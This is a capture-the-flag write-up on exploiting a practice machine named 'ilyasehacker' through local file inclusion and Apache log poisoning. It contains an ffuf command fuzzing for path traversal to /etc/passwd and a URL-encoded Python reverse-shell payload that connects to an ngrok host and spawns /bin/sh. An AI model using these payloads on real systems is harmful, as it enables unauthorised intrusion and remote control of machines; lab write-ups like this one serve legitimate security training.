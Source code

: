 ```yaml
---
layout: default
title : muzec - ilyasehacker Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/173816539-f00c6762-a804-494d-a790-e1ea263cba74.png)

I have fun pwning one of my buddy new created machine `ilyasehacker` a fun easy machine would said let jump in already and stay pwning XD.

Let start our enumeration already by scanning with `Nmap` .

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground]
└─$ nmap -sC -sV 102.37.127.79
Starting Nmap 7.91 ( https://nmap.org ) at 2022-06-15 09:30 WAT
Stats: 0:04:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 09:35 (0:00:09 remaining)
Stats: 0:06:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 09:36 (0:00:04 remaining)
Nmap scan report for 102.37.127.79
Host is up (0.15s latency).
Not shown: 995 filtered ports
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d7:ea:b9:50:3b:e1:e2:74:3c:a2:23:6f:6a:47:d9:05 (RSA)
|   256 4e:bf:a4:e6:4d:44:a9:b8:b0:18:a8:3b:da:2a:76:43 (ECDSA)
|_  256 69:30:91:d0:f2:ba:85:87:62:cd:e7:85:c8:49:28:37 (ED25519)
25/tcp  open   smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp  open   http        Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/thumb/config.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 3awaba
443/tcp closed https
587/tcp open   submission?
|_smtp-commands: Couldn't establish connection on port 587
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 424.64 seconds
```

Interesting we have `HTTP` seems we have something on `robots.txt` which is cool.

![image](https://user-images.githubusercontent.com/69868171/173818791-51e97892-815f-4c02-a153-7a12efb2b558.png)

But when i access it.

![image](https://user-images.githubusercontent.com/69868171/173818932-72fac69e-4f6f-461c-a0db-a5c197e61466.png)

WTF a troll or what i don't think so we can either check for `LFI` to be at rest to avoid missing anything.

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground]
└─$ ffuf -c -ic -r -u 'http://102.37.127.79/thumb/config.php?FUZZ=../../../../../../../../../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 27   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://102.37.127.79/thumb/config.php?FUZZ=../../../../../../../../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 27
________________________________________________

file                    [Status: 200, Size: 1946, Words: 17, Lines: 37]
```

Boom `LFI` XD.

![image](https://user-images.githubusercontent.com/69868171/173819719-947aca09-2dad-4f3e-abd8-4afee55359d8.png)

Now what come to mind is to get RCE or find a way to loot credentials `Apache Log Poisoning` .

![image](https://user-images.githubusercontent.com/69868171/173820206-0263a729-eea2-42bd-a1dc-774b39f577a2.png)

Let poison it intercepting with burp suite.

![image](https://user-images.githubusercontent.com/69868171/173820472-b88bc865-b43e-4e6d-b349-d7fe41ea55f5.png)

Setting up `ngrok` to recieve our shell with our `ncat` listener.


![image](https://user-images.githubusercontent.com/69868171/173820696-26e2f236-8f02-41a2-8f24-3052a1425191.png)

Double encoding or payload.

```
python3%20%2Dc%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%228%2Etcp%2Engrok%2Eio%22%2C17966%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C2%29%3Bp%3Dsubprocess%2Ecall%28%5B%22%2Fbin%2Fsh%22%2C%22%2Di%22%5D%29%3B%27
```

![image](https://user-images.githubusercontent.com/69868171/173820854-5c0c768c-2bd3-4c10-a807-851f1fc77f15.png)

Now back to our listener.

![image](https://user-images.githubusercontent.com/69868171/173821175-78e807c6-55cd-4481-83cb-f2a64305ef19.png)

Time to loot credentials.

![image](https://user-images.githubusercontent.com/69868171/173821310-b027027c-7a20-4575-91cb-6f8a692b1db6.png)

Hint stated the password is encrypted in `xor` without knowing the key seems we need to brute force.

![image](https://user-images.githubusercontent.com/69868171/173821671-725d0d1b-ed68-4c59-bf7a-62c8c4491afe.png)


Now let hit SSH.

![image](https://user-images.githubusercontent.com/69868171/173821886-92d31603-984b-44bb-8a9d-dc30995798da.png)

We have the first flag and seems we can run all to get root it was a easy XD and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

